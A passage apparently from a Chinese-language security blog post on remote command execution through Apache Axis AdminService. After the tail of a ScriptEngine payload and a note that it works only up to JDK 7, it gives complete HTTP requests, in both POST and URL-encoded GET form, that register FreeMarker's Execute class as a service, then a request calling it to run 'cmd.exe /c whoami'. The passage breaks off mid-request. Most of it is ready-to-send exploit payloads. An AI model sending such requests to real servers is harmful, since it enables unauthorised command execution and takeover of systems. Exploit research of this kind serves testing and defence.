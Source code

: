 ```xml
    </eval>
  </soapenv:Body>
</soapenv:Envelope>
```
![](https://img-blog.csdnimg.cn/bc4a5083deeb490e9f5ae8afd667af93.png)


>缺陷： jdk7及之前的版本可以用，之后的版本就不是这个ScriptEngine类了，取代他的是NashornScriptEngine，但是这个NashornScriptEngine不能利用


### freemarker.template.utility.Execute
需要添加依赖，下载：[https://www.apache.org/dyn/closer.cgi/freemarker/engine/2.3.32/binaries/apache-freemarker-2.3.32-bin.tar.gz](https://www.apache.org/dyn/closer.cgi/freemarker/engine/2.3.32/binaries/apache-freemarker-2.3.32-bin.tar.gz)，导入freemarker-2.3.32.jar

看到exec方法，很明显的命令执行
![](https://img-blog.csdnimg.cn/dd93c384bf7c4d1f95cd395c96f86345.png)

POST请求
```xml
POST /services/AdminService HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: text/xml; charset=utf-8
SOAPAction: ""
Content-Length: 627

<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <soapenv:Body>
    <deployment xmlns="http://xml.apache.org/axis/wsdd/" xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
       <service name="freemarkerTest" provider="java:RPC">
        <parameter name="className" value="freemarker.template.utility.Execute"/>
        <parameter name="allowedMethods" value="*"/>
       </service>
    </deployment>
  </soapenv:Body>
</soapenv:Envelope>
```
GET请求：
```
GET /axis/services/AdminService?method=!--%3E%3Cdeployment%20xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%20xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%20name%3D%22freemarkerTest%22%20provider%3D%22java%3ARPC%22%3E%3Cparameter%20name%3D%22className%22%20value%3D%22freemarker.template.utility.Execute%22%2F%3E%3Cparameter%20name%3D%22allowedMethods%22%20value%3D%22*%22%2F%3E%3C%2Fservice%3E%3C%2Fdeployment HTTP/1.1
Host: 127.0.0.1:8080
```
调用service命令执行：
```xml
POST /axis/services/freemarkerTest HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: text/xml; charset=utf-8
SOAPAction: ""
Content-Length: 587

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:util="http://utility.template.freemarker" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">
   <soapenv:Header/>
   <soapenv:Body>
      <util:exec soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <arguments>
            <string xsi:type="soapenc:string">cmd.exe /c whoami</string>
```